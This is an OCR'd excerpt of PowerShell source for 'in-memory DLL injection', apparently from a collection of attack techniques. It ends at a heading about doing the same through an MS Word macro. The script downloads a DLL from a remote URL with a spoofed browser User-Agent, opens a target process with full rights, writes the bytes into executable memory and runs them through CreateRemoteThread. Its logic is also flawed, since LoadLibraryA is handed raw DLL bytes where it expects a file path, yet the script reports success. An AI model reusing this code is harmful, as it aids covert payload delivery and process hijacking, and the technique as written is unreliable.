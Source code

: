 ```powershell
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool VirtualFreeEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint dwFreeType);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
}
"@

# Download the DLL into memory
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("User-Agent", "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)")
$webClient.Credentials = [System.Net.CredentialCache]::DefaultCredentials
$dllBytes = $webClient.DownloadData($dllUrl)

# Get the process ID of the target process
$process = Get-Process -Name $processName
$processId = $process.Id

# Open the process with all access rights
$processHandle = [Win32]::OpenProcess(0x1F0FFF, $false, $processId)

# Allocate memory in the target process for the DLL
$dllMemory = [Win32]::VirtualAllocEx($processHandle, [IntPtr]::Zero, [uint32]$dllBytes.Length, 0x3000, 0x40)

# Write the DLL to the allocated memory
$written = [IntPtr]::Zero
[Win32]::WriteProcessMemory($processHandle, $dllMemory, $dllBytes, [uint32]$dllBytes.Length, [ref]$written)

# Get the address of LoadLibraryA in kernel32.dll
$loadLibraryAddr = [Win32]::GetProcAddress([Win32]::GetModuleHandle("kernel32.dll"), "LoadLibraryA")

# Create a remote thread in the target process to load the DLL
$threadHandle = [Win32]::CreateRemoteThread($processHandle, [IntPtr]::Zero, 0, $loadLibraryAddr, $dllMemory, 0, [ref]$null)

# Wait for the remote thread to complete
[Win32]::WaitForSingleObject($threadHandle, 0xFFFFFFFF)

# Clean up
[Win32]::VirtualFreeEx($processHandle, $dllMemory, 0, 0x8000)
[Win32]::CloseHandle($threadHandle)
[Win32]::CloseHandle($processHandle)

Write-Output "In-memory DLL injection successful."

```
### DLL Injection with MS Word Macro
